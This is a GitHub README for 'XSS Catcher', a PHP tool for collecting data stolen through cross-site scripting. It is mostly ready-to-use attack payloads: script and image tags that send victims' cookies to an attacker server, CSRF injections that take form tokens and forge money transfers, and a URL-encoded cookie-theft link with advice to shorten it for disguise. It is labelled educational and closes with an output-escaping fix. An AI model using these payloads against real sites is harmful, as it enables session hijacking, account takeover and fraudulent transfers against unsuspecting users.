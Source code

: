 # XSS Catcher

Simple API for storing all incoming XSS requests.

Every incoming XSS request must contain `site` and `data` (i.e. stolen data) request parameters. Additionaly, you can add the `info` request parameter.

**This topic is very broad and only few client side injections were covered. Keep in mind that XSS is not limited only to JavaScript.**

Play with the given examples and make your own (possibly shorter).

Tested on XAMPP for Windows v7.4.3 (64-bit) with Chrome v80.0.3987.149 (64-bit) and Firefox v74.0 (64-bit).

Made for educational purposes. I hope it will help!

## How to Run

Import [\\db\\xss_catcher.sql](https://github.com/ivan-sincek/xss-catcher/blob/master/db/xss_catcher.sql) to your database server.

Copy all the content from [\\src\\](https://github.com/ivan-sincek/xss-catcher/tree/master/src) to your server's web root directory (e.g. to \\xampp\\htdocs\\ on XAMPP).

Change the database settings inside [\\src\\php\\config.ini](https://github.com/ivan-sincek/xss-catcher/tree/master/src/php/config.ini) as necessary.

Navigate to your database panel with your preferred web browser.

You can use [ngrok](https://ngrok.com/) to give your XAMPP a public address.

On web servers other than XAMPP (Apache) you might need to load `Multibyte String` librabry within PHP.

In XAMPP it is as simple as uncommenting the `extension=mbstring` line in the `php.ini` file.

## Cross-Site Scripting

Usually used to steal data or to modify a web page.

**HTTP cookies must be missing the HttpOnly flag in order for you to steal them.**

Steal HTTP cookies by injecting the following JavaScript code:

```xhtml
<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie));</script>

<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.send('{\"site\": \"' + encodeURIComponent(location.hostname + location.pathname) + '\", \"data\": \"' + encodeURIComponent(document.cookie) + "\"}");</script>
```

First example above will send an HTTP POST request to your server with user-defined parameters as form-data. Opt for this example whenever possible.

To send user-defined parameters as form-data, you must add the `Content-Type: application/x-www-form-urlencoded` HTTP request header.

Second example above will send an HTTP POST request to your server with raw data encoded in JSON.

Steal HTTP cookies by injecting the following HTML code:

```xhtml
<img src="https://github.com/favicon.ico" alt="xss" onload="var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie));" hidden="hidden">

<img src="https://github.com/favicon.ico" alt="xss" onload="this.src = 'https://myserver.com/store.php?site=' + encodeURIComponent(location.hostname) + location.pathname + '&data=' + encodeURIComponent(document.cookie);" hidden="hidden">
```

First example above will send an HTTP POST request to your server with user-defined parameters as form-data.

Second example above will send an HTTP GET request to your server with user-defined parameters in a query string (i.e. in a URL).

## Cross-Site Request Forgery

You do not necessarily need to steal HTTP cookies or modify web forms. The goal is to just execute a forged query string in the name of a signed-in user.

The simplest way to do so, is to send an email to the victim containing link such as `https://target.com/transfer.php?recipient=eve&amount=9000` (limited to HTTP GET request) or to store/hide the code in either the target website or your own website and then send the less suspicious link.

**Try to figure out what kind of data does the backend server accept before you try to forge/send anything. Is it a query string, form-data, raw data encoded in JSON, etc.?**

Plant a forged request by injecting the following JavaScript code:

```xhtml
<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://target.com/transfer.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('recipient=eve&amount=9000');</script>
```

Example above will send an HTTP POST request to the target server in a victim's name with user-defined parameters as form-data.

Plant a forged request whilst stealing a web form token by injecting the following JavaScript code:

```xhtml
<script>window.onload = function() { var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://target.com/transfer.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('recipient=eve&amount=9000&token=' + encodeURIComponent(document.getElementsByName('token')[0].value)); }</script>

<script>window.onload = function() { var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://target.com/transfer.php?recipient=eve&amount=9000&token=' + encodeURIComponent(document.getElementsByName('token')[0].value), true); xhr.send(); }</script>
```

First example above will send an HTTP POST request to the target server in a victim's name with user-defined parameters as form-data.

Second example above will send an HTTP GET request to the target server in a victim's name with user-defined parameters in a query string (i.e. in a URL).

To steal a web form token or any other web form data, you must wait for the web form to fully render/load. You can do that by calling the `window.onload` event.

Plant a forged request by injecting the following HTML code:

```xhtml
<img src="https://target.com/transfer.php?recipient=eve&amount=9000" alt="xss" hidden="hidden">

<img src="https://github.com/favicon.ico" alt="xss" style="background-image: url('https://target.com/transfer.php?recipient=eve&amount=9000');" hidden="hidden">
```

Both examples above will send an HTTP GET request to the target server in a victim's name with user-defined parameters in a query string (i.e. in a URL).

Plant a forged request by injecting the following CSS code:

```xhtml
<style>div { background-image: url('https://target.com/transfer.php?recipient=eve&amount=9000'); }</style>
```

Example above will send an HTTP GET request to the target server in a victim's name with user-defined parameters in a query string (i.e. in a URL).

## Proof of Concept - No Input Sanitization

This proof of concept shows how to steal cookies through unsanitized HTTP request parameter.

Vulnerable code:

```xhtml
<script>var language = '<?php if (isset($_GET["language"])) { echo $_GET["language"]; } ?>';</script>
```

Expected use:

```xhtml
<script>var language = 'en';</script>
```

User-supplied data:

```fundamental
en'; var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie)); var test = '
```

**Always make sure to properly close the surrounding code.**

Encode your code to the URL encoded format [here](https://www.urlencoder.org).

Final XSS request:

```fundamental
https://localhost/welcome.php?language=en%27%3B%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%20xhr.open%28%27POST%27%2C%20%27https%3A%2F%2Fmyserver.com%2Fstore.php%27%2C%20true%29%3B%20xhr.setRequestHeader%28%27Content-Type%27%2C%20%27application%2Fx-www-form-urlencoded%27%29%3B%20xhr.send%28%27site%3D%27%20%2B%20encodeURIComponent%28location.hostname%20%2B%20location.pathname%29%20%2B%20%27%26data%3D%27%20%2B%20encodeURIComponent%28document.cookie%29%29%3B%20var%20test%20%3D%20%27
```

Optionally, you can shorten query strings (i.e. URLs) with [Bitly](https://bitly.com).

Solution (output escaping):

```xhtml
<script>var language = '<?php if (isset($_GET["language"])) { echo htmlentities($_GET["language"], ENT_QUOTES, "UTF-8"); } ?>';</script>
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/xss-catcher/blob/master/img/db.jpg" alt="Database"></p>

<p align="center">Figure 1 - Database</p>
